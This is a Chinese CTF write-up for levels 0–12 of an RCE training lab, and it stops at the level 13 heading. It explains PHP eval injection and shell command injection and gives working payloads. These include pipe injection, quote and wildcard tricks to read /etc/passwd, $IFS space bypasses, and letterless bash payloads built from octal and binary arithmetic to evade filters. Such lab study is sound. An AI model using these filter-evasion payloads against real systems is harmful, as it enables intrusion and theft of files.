title: RCE-labs通关题解
published: 2026-11-22
description: '学习总结一下常见的RCE操作'
image: ''
tags: [web,RCE]
category: '题解'
draft: false 
lang: 'zh'


靶场包含的知识：

代码/命令执行基础概念

命令执行 - 基于终端特性的绕过

代码执行 - 基于PHP特性的执行手法或绕过手法

代码执行 - 基于Java特性的执行手法或绕过手法（JNDI注入，表达式注入）

RCE类型 - 文件写入导致的RCE

RCE类型 - 文件上传导致的RCE

RCE类型 - 文件包含导致的RCE

RCE类型 - SQL注入导致的RCE

RCE类型 - 模板注入导致的RCE（Python，PHP）

RCE类型 - 反序列化导致的RCE（PHP，Java，Python，Nodejs）

RCE类型 - 缓冲区溢出导致的RCE

# level 0

## **这一关是前置知识**

「任意代码执行(Arbitrary Code Execution,ACE)」 是指攻击者在目标计算机或目标进程中运行攻击者选择的任何命令或代码的能力，这是一个广泛的概念，它涵盖了任何类型的代码运行过程，不仅包括系统层面的脚本或程序，也包括应用程序内部的函数或方法调用。

在此基础上我们将通过网络触发任意代码执行的能力通常称为 远程代码执行 「远程代码执行(RCE,Remote Code Execution,RCE)」。

「命令执行(Command Execution)」 通常指的是在操作系统层面上执行预定义的指令或脚本。这些命令最终的指向通常是系统命令，如Windows中的CMD命令或Linux中的Shell命令，这在语言中可以体现为一些特定的函数或者方法调用，如PHP中的`shell_exec()`函数或Python中的`os.system()`函数。

「代码执行(Code Execution)」 同我们最开始说到的任意代码执行，在语言中可以体现为一些函数或者方法调用，如PHP中的`eval()`函数或Python中的`exec()`函数。

虽然在很多教学场景，命令执行 和 代码执行 经常被用同一个缩写 RCE (Remote Code/Command Execution) 来指代，但显而易见的是，代码执行是更为广泛的概念。


# level 1

## **基础篇	一句话木马和代码执行**



应该是简单的一句话木马，我们模仿他提示的命令写一句话木马就行

这里要求POST一个a,在值里构造命令，即可获得flag

```
a=system("cat /flag");
a=a=echo $flag;
```




# level 2

## **基础篇	PHP代码执行函数**

```
function hello_ctf($function, $content){
    global $flag;
    $code = $function . "(" . $content . ");";
    echo "Your Code: $code <br>";
    eval($code);
}

function get_fun(){

    $func_list = ['eval','assert','call_user_func','create_function','array_map','call_user_func_array','usort','array_filter','array_reduce','preg_replace'];

    if (!isset($_SESSION['random_func'])) {
        $_SESSION['random_func'] = $func_list[array_rand($func_list)];
    }
    
    $random_func = $_SESSION['random_func'];

    $url_fucn = preg_replace('/_/', '-', $_SESSION['random_func']);
    
    echo "获得新的函数: $random_func ，去 https://www.php.net/manual/zh/function.".$url_fucn.".php 查看函数详情。<br>";

    return $_SESSION['random_func'];
}

function start($act){

    $random_func = get_fun();
    
    if($act == "r"){ /* 通过发送GET ?action=r 的方式可以重置当前选中的函数 —— 或者你可以自己想办法可控它x */
        session_unset();
        session_destroy(); 
    }

    if ($act == "submit"){
        $user_content = $_POST['content']; 
        hello_ctf($random_func, $user_content);
    }
}

isset($_GET['action']) ? start($_GET['action']) : '';

highlight_file(__FILE__);

?>
```

这题代码中写的是随机抽取一个函数进行代码执行，需要我们GET传参action=submit开启只有带action参数才会触发start()

预期解是抽函数然后用对应的语法写一句话代码

这里可以用var_dump（）直接得出flag

```
content=var_dump($flag)
```



**通用方法**不管哪个函数直接传参content=var_dump($flag)，函数传参时，实参表达式优先执行，PHP 函数调用先运算所有参数，再进入函数体,直接var_dump把flag打印出来

也可以拼接逃逸,`$content` 完全可控 → 用 括号闭合 + 注释符 直接逃逸：

```
content = );print_r($flag);//
```

拼出来的代码（本轮随机到`preg_replace` ）：

```
preg_replace();print_r($flag);//);
```


# level 3

## **基础篇	命令执行**



非常基础，直接cat /flag就行了


# level 4

## **命令执行	SHELL 运算符**

题目很简单，直接用`|`分隔命令就行，输入 ` 127.0.0.1 | cat /flag`



&&（逻辑与运算符）: 只有当第一个命令 cmd_1 执行成功（返回值为 0）时，才会执行第二个命令 cmd_2。例: mkdir test && cd test

||（逻辑或运算符）: 只有当第一个命令 cmd_1 执行失败（返回值不为 0）时，才会执行第二个命令 cmd_2。例: cd nonexistent_directory || echo "Directory not found"

&（后台运行符）: 将命令 cmd_1 放到后台执行，Shell 立即执行 cmd_2，两个命令并行执行。例: sleep 10 & echo "This will run immediately."

;（命令分隔符）: 无论前一个命令 cmd_1 是否成功，都会执行下一个命令 cmd_2。例: echo "Hello" ; echo "World"

`|` (管道符) 它的作用是将前一个命令的输出作为后一个命令的输入


# level 5

## **命令执行	黑名单式过滤**

题目比较简单，总结一下先

在Shell中，单/双引号 "/' 可以用来定义一个空字符串或保护包含空格或特殊字符的字符串。
例如：echo "$"a 会输出 $a，而 echo $a 会输出变量a的值，当只有""则表示空字符串，Shell会忽略它。

*（星号）: 匹配零个或多个字符。例子: *.txt。
?（问号）: 匹配单个字符。例子: file?.txt。
[]（方括号）: 匹配方括号内的任意一个字符。例子: file[1-3].txt。
[^]（取反方括号）: 匹配不在方括号内的字符。例子: file[^a-c].txt。
{}（大括号）: 匹配大括号内的任意一个字符串。例子: file{1,2,3}.txt。

通过组合上述技巧，我们可以用于绕过CTF中一些简单的过滤：

system("c''at /e't'c/pass?d");
system("/???/?at /e't'c/pass?d");
system("/???/?at /e't'c/*ss*");

此题只是匹配了flag，用fl*绕过即可

  


# level 6

## **命令执行	通配符匹配绕过**



考的是通配符绕过，这里做了正则匹配，只有小写a没被过滤用`?`构造payload

```
?cmd=/bin/cat /flag => ?cmd=/???/?a?%20/??a?
```

如果不写 `/bin/`，系统找不到 `cat` 命令；加上 `/bin/`，系统才知道去系统库里执行这个程序

如果你直接输入 `?a?`Linux 会默认在你**当前所在的文件夹**里寻找匹配的文件而不是进行命令执行


# level 7

## **命令执行	空格过滤**



```
function hello_shell($cmd){
    if(preg_match("/flag| /", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);

```

用%09或$IFS代替空格就行,构造命令

```
?cmd=cat$IFS/fl*
```


# level 8

## **文件描述和重定向**

```
如果希望执行某个命令，但又不希望在屏幕上显示输出结果，那么可以将输出重定向到 /dev/null：
$ command > /dev/null

/dev/null 是一个特殊的文件，写入到它的内容都会被丢弃；如果尝试从该文件读取内容，那么什么也读不到。但是 /dev/null 文件非常有用，将命令的输出重定向到它，会起到"禁止输出"的效果。
如果希望屏蔽 stdout 和 stderr，可以这样写：
$ command > /dev/null 2>&1
```



这道题无回显，可以把flag写入可读文件再去读，即为重定向

先把flag复制到可访问目录

```
?cmd=cp /flag ./flag.txt
```

然后就可以直接访问获得flag

```
  http://.../flag.txt 
```




# level 9

## **命令执行	无字母命令执行_八进制转义**



```
在这个关卡主要利用的是在终端中，$'\xxx'可以将八进制ascii码解析为字符，仅基于这个特性，我们可以将传入的命令的每一个字符转换为$'\xxx\xxx\xxx\xxx'的形式，但是注意，这种方式在没有空格的情况下无法执行带参数的命令。
比如"ls -l"也就是$'\154\163\40\55\154' 只能拆分为$'\154\163' 空格 $'\55\154'三部分。

bash-5.1# $'\154\163\40\55\154'
bash: ls -l: command not found

bash-5.1# $'\154\163' $'\55\154'
total 4
-rw-r--r--    1 www-data www-data       829 Aug 14 19:39 index.php
```

原始命令`cat /flag`

cat => $'\143\141\164'

/flag => $'\57\146\154\141\147'

最终payload

```
?cmd=$'\143\141\164' $'\57\146\154\141\147'
```




# level 10

## **命令执行	无字母命令执行_二进制整数替换**

本关卡的考点为终端中支持 $((2#binary)) 解析二进制数据

在 `bash` 终端中, 支持使用 `$((2#binary))`来通过二进制表示十进制数

熟知 $((2#binary))的原理, 是否会发现, 这里不是有个 2

 吗, 怎么绕过 WAF 呢

其实只要在嵌套一层 `$((...))` 就可以

可以只使用 1 和 < 通过左移运算得到 2

如 `$((1<<1))`

所以 `$((2#binary))` 可以写为 `$(($((1<<1))#binaryStr))`

然后把 `$(($((1<<1))#binaryStr))` 套入到八进制转义中

直接用工具换出payload

```
$0<<<$0\<\<\<\$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\'
```

直接传没反应，url编码一下就可以了




# level 11

## 	**无字母命令执行_整数1的特殊变量替换**



这里意在讲 ${##} 来替换 1 绕过waf

`cat /flag` 转二进制 

```
$0<<<$0\<\<\<\$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\'
```

替换 1

```
$0<<<$0\<\<\<\$\'\\$(($((${##}<<${##}))#${##}000${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}000${##}${##}0${##}))\\$(($((${##}<<${##}))#${##}0${##}00${##}00))\\$(($((${##}<<${##}))#${##}0${##}000))\\$(($((${##}<<${##}))#${##}${##}${##}00${##}))\\$(($((${##}<<${##}))#${##}00${##}00${##}0))\\$(($((${##}<<${##}))#${##}00${##}${##}0${##}0))\\$(($((${##}<<${##}))#${##}000${##}${##}0${##}))\\$(($((${##}<<${##}))#${##}00${##}00${##}${##}))\'
```



 # level 12

## **命令执行	无字母命令执行_整数0的特殊变量替换**

0被禁了，用 `${#}` 代替 `0`

**原理**：在 Bash 中，`${#}` 代表传递给当前脚本的参数个数。因为你是在交互式终端直接执行命令，没有传入任何参数，所以它的值天然就是 `0`

**用法**：在原本需要写 `0` 的地方（比如构造八进制转义 `$'\xxx'` 或二进制数时），直接写 `${#}`

payload

```
cat /flag

${!#}<<<${!#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${##}${#}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${##}))\'
```


# level 13

## **命令执行	无字母命令执行_特殊扩展替换任意数字**

